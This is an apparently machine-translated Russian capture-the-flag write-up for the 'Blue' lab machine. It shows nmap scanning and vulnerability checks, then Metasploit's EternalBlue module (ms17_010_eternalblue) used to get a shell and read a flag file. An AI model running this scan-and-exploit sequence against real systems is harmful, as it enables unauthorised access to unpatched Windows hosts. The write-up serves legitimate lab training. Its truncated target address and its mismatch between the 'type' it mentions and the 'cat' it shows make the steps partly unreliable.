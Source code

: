 ![[Pasted image 20230704103329.png]]

Когда я извлекаю полный результат nmap, я обнаружил следующие детали

• ОС: Windows 7 профессиональная
• Имя компьютера: haris-pc
• Имя компьютера NetBIOS haris-pc
• SMB-версия: 02

**Большой!!**  Из этого результата я могу сделать вывод, что имя пользователя может быть «haris», кроме того, smb 2.02 может быть использован уязвимостью «eternalblue».

Название задачи у нас **Blue**, ОС машины **Windows** и на нем запушен **SMB**. Всё это говорить о **eternalblue**. 

![[Pasted image 20230704103610.png]]

## Поиск уязвимости 

Подтвердим уязвимость eternalblue в системе жертвы скриптом nmap.

```bash
nmap --script vuln -p445 10.10.10.40
```

**Потрясающий!!**  Машина жертвы уязвима для вечного синего эксплойта.

![[Pasted image 20230704103734.png]]

Затем я запускаю команду msfconsole в терминале и загружаю платформу Metasploit для использования вечного синего модуля для эксплуатации целевой машины.

## Эксплуатация 

```bash
use exploit/windows/smb/ms17_010_eternalblue
msf exploit(windows/smb/ms17_010_eternalblue) > set rhost 10.10.10
msf exploit(windows/smb/ms17_010_eternalblue) > run
```

Потрясающий!! У меня есть несанкционированный доступ к командной оболочке жертвы через сеанс 1 , как показано на рисунке ниже.

![[Pasted image 20230704103947.png]]

Внутри `c:\Users\haris\Desktop` я нашел user.txt и использовал команду type «filename» для чтения этого файла.

```
cd Desktop
cat user.txt
```

***Большой!!** Мы успешно получили наш 1 -й флаг

Внутри `c:\Users\Administrator\Desktop` я нашел root.txt и использовал команду type «filename» для чтения этого файла.
